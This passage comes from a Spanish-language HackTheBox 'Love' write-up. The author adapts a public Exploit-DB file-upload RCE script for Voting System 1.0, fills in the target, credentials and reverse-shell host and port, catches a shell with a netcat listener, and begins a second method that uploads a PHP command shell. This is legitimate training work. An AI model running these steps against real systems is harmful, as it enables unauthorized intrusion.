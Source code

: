 Se observa un recurso que permite la ejecución de código contanto con un usuario autenticado, por lo que descargamos el archivo *49445.py* y lo renombramos como *voting_system.py*.

```bash
❯ searchsploit -m php/webapps/49445.py
  Exploit: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
      URL: https://www.exploit-db.com/exploits/49445
     Path: /usr/share/exploitdb/exploits/php/webapps/49445.py
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/kamiyo/Documentos/HTB/Love/exploits/49445.py

> mv 49445.py voting_system.py
```

Abrimos el archivo y realizamos las modificaciones correspondiente:
- IP = "10.10.10.239"
- USERNAME = "admin"
- PASSWORD = "" # Introducir el password obtenido
- REV_IP = 10.10.14.5
- REV_PORT = "443"

Así mismo, para las variables *INDEX_PAGE*, *LOGIN_URL*, *VOTE_URL* y *CALL_SHELL*, eliminar de la dirección URL la palabra **votesystem**, teniendo como resultado `http://{IP}/admin/`. Una vez realizados los cambios, procedemos a ejecutar el archivo y nos ponemos en escucha por el puerto 443:

```bash
❯ python voting_system.py
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 58604
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

Y ya obtenemos acceso al sistema como el usuario *love\\phoebe*. A continuación se describe otro método para obtener acceso al sistema. Dentro del panel de administración, se observa que podemos actuliazar los datos del peril del usuario *Neovic Devierte*; así como podemos subir un archivo de cualquier extensión; por lo tanto, se crea un archivo php que nos permita la ejecución de comando a nivel de sistema.

